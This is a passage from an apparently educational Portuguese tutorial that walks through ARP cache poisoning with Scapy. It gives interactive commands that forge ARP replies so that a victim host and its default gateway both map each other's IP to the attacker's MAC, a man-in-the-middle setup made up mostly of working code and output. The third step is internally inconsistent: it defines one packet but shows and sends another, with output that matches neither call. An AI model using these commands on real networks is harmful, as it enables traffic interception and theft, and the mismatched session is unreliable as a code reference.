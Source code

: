 ```python
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```
A mesma observação feita para o gateway vale para a vítima.

- 2º passo: “envenenar” o arp cache da vítima na linha do default gateway, preenchendo com o MAC address do atacante
- Solução: fake arp reply

```python
>>> arppoison1 = ARP(op = 2, psrc = "192.168.1.1", pdst = "192.168.1.101", hwdst = "b4:2e:99:f4:b7:df")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.1
  hwdst= b4:2e:99:f4:b7:df
  pdst= 192.168.1.101

>>> send(arppoison1)
.
Sent 1 packets.
```

Observe que o que está sendo enviado para a vítima (`192.168.1.101` no MAC `b4:2e:99:f4:b7:df`) é que o IP `192.168.1.1` (default gateway) está (`is-at`) no MAC `28:56:5a:49:ff:67` (`hwsrc`) que na verdade é o MAC do atacante.


- 3º passo: “envenenar” o arp cache do default gateway na linha da vítima, preenchendo com o MAC address do atacante
- Solução: fake arp reply

```python
>>> arppoison2 = ARP(op = 2, psrc = "192.168.1.101", pdst = "192.168.1.1", hwdst = "c4:e9:84:9a:14:16")
>>> arppoison1.show()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 28:56:5a:49:ff:67
  psrc= 192.168.1.101
  hwdst= c4:e9:84:9a:14:16
  pdst= 192.168.1.1

>>> send(arppoison1)
.
Sent 1 packets.
```
